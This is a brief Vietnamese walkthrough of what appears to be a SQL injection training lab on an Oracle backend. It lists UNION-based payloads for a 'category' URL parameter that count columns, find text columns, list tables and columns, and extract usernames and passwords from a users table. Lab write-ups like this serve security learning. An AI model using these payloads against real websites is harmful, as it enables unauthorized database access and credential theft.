






# Triển khai Lap
 ###### Xác định số cột bằng lệnh `filter?category=Lifestyle' union select NULL,NULL from dual-- -`

###### Xác định cột nào chứa chuỗi văn bản qua lệnh `filter?category=Lifestyle' union select 'a','b'from dual-- -`

###### Chúng ta có thể sử dụng all_tables để tìm kiếm table_name bằng lệnh `filter?category=Lifestyle' union select table_name,NULL from all_tables-- -`

###### Sau đó thử cái cụ thể - USERS_XAZOCG
###### Nhập lên URL `?category=Gifts' union SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_XAZOCG'-- -`

###### Thử tím kiếm sâu hơn.
###### `?category=Gifts' union SELECT USERNAME_MJSMWT,PASSWORD_SOBTDF FROM USERS_XAZOCG-- -`

